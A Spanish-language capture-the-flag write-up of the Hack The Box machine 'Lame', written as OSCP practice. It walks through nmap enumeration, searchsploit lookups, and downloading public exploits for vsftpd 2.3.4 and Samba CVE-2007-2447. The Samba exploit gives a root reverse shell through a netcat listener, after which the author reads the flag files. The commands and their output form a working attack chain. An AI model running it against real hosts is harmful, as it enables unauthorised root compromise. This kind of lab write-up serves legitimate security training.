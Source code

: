 ```yaml
---
layout: post
title:  "OSCP Path ~ Lame de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada LAME siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Samba, Maquinas Retiradas, Writeup, Hacking
---
```


# Lame ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.3       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4										-comprobando version
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.193
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h01m27s, deviation: 2h49m45s, median: 1m24s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-05-03T17:06:20-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```
Comenzamos buscando en `SAEARCHSPLOIT` por las versiones de los servicios encontrados:
```bash
# searchsploit vsftpd 2.3.4           
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                        | unix/remote/17491.rb
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
Encontramos que para la version 2.3.4 vsftpd hay un RCE buscamos a nivel de github porque solo aparecia uno RCE para su uso en Metasploit (NO PODEMOS USARLO)
Asique buscamos por algun exploit igual pero en `python` para comprobar si funciona. Nos descargamos el siguiente exploit
```bash
# wget https://raw.githubusercontent.com/ahervias77/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py 
```
```bash
# python3 vsftpd_234_exploit.py -h
Usage: ./vsftpd_234_exploit.py <IP address> <port> <command>
Example: ./vsftpd_234_exploit.py 192.168.1.10 21 whoami
                                                                                                                                                                                
┌──(root💀kali)-[/home/…/HTB/OSCP/Lame/exploits]
└─# python3 vsftpd_234_exploit.py 10.10.10.3 21 whoami
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
```
---------------- NO NOS FUNCIONA ---------------
 
 Prodecemos a seguir enumerando con `SEARCHSPLOIT` el servicio `SAMBA`:
 ```bash
 # searchsploit samba 3.0.2
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                              | unix/remote/16320.rb
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 ```
 Encontramos otro exploit posiblemente funcional pero para su uso con Metasploit, y nosotros no Usamos Metasploit, esta Prohibido para el OSCP.
 Vamos a buscar a nivel de github por algun exploit para la version de `samba 3.0.2`. Nos descargamos el siguiente exploit
 ```bash
 # wget https://raw.githubusercontent.com/amriunix/CVE-2007-2447/master/usermap_script.py  
 ```
 Procedemos a pasarle los datos que nos pide `RHOST` `RPORT` `LHOST` `LPORT` y nos ponemos a la escucha por el `LPORT` indicado con una session de `netcat`.
 ```bash
 # python3 usermap_script.py 10.10.10.3 139 10.10.14.5 443
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
 ```
 Ejecutamos el Exploit `usermap_script.py` y recibimos una conexion como el usuario `root` directamente.
 ```bash
 # nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.16.132] from (UNKNOWN) [10.10.10.3] 60661
script /dev/null -c bash
root@lame:/# 
 ```
 Sacamos las Flags:
 Para el `user.txt`:
 ```bash
 root@lame:/home/makis# cat user.txt
353f01d477d0f5b98e2b545d7xxxxxxxxx
 ```
 Para el `root.txt`:
 ```bash
root@lame:/root# cat root.txt
70da9f983f2a6f92d0936a3aaxxxxxxxxx
 ```
